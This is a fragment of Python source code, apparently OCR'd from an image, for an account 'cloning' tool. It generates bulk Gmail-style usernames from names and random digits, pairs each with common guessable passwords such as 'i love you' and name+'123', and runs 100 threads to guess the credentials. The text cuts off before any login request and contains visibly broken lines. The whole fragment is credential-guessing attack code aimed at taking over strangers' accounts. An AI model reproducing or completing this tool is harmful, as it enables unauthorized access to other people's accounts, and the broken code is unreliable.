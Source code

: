 # APK CHECK EMIL
def sudair_email():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    sudair_Hasan(logo)
    sudair_Hasan(f' [{xr}^{x}] Example>: {xr}019,017,018,016,015{x}')
    sudair_Hasan(" -----------------------------------------------------------------------------------")
    rk1 = '.'
    rk2 = '1'
    rk3 = '0'
    rk4 = '.'
    code = random.choice([rk1,rk2,rk3,rk4])                      
    # input(f' [{xr}■{x}] Choose : ')
    os.system('clear')
    sudair_Hasan(logo)
    fastname = input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93msudair, \x1b[38;5;208mhasan, \033[0;92mshuvo ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING FAST NAME:\033[0;93m ')
    os.system('clear')
    sudair_Hasan(logo)
    lasttname = input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93msudair, \x1b[38;5;208mhasan, \033[0;92mshuvo ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LAST NAME:\033[0;93m ')
    sudair_Hasan(logo)
    limit = int(input(f'\033[0;97m[{xr}^{x}]\033[0;92m EXAMPLE : \033[0;93m10000, \x1b[38;5;208m20000, \033[0;92m50000 ] \n\033[0;95m═════════════════════════════════════════ \n\033[0;97m[{xr}^{x}] \033[0;92mPUT CLONING LIMIT:\033[0;93m '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(3))
        user.append(nmp)
    os.system("clear")
    sudair_Hasan(logo)
    passx = 0
    HamiiID = []
    sudair_Hasan("")
    for bilal in range(passx):
        pww = input(f"[*] Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=100) as manshera:
        clear()
        tl = str(len(user))
        sudair_Hasan('\033[1;97m====================================================')
        sudair_Hasan(f'[{xr}^{x}]\x1b[38;5;208m YOUR TOTAL IDS: {xr}'+tl)
        sudair_Hasan(f'{x}[{xr}^{x}]\033[0;92m PLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        sudair_Hasan(f'{x}[{xr}^{x}]\033[0;92m YOU INPU NAME :'+fastname+lasttname)
        sudair_Hasan(f'\033[0;97m[{xr}^{x}] \x1b[38;5;208mUse Flight Mode For Speed Up')
        sudair_Hasan(f'\033[0;97m[{xr}^{x}] \033[0;95mSlow Cloning')
        sudair_Hasan('\033[1;97m====================================================')
        for love in user:
            sudairuser=fastname+code+lasttname+love
            pwx = [fastname+lasttname,fastname+lasttname+love,fastname+love,lasttname+love,'bangladesh','i love you','free fire',fastname+'123',lasttname+'123']
            uid = sudairuser+'@gmail.com'
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)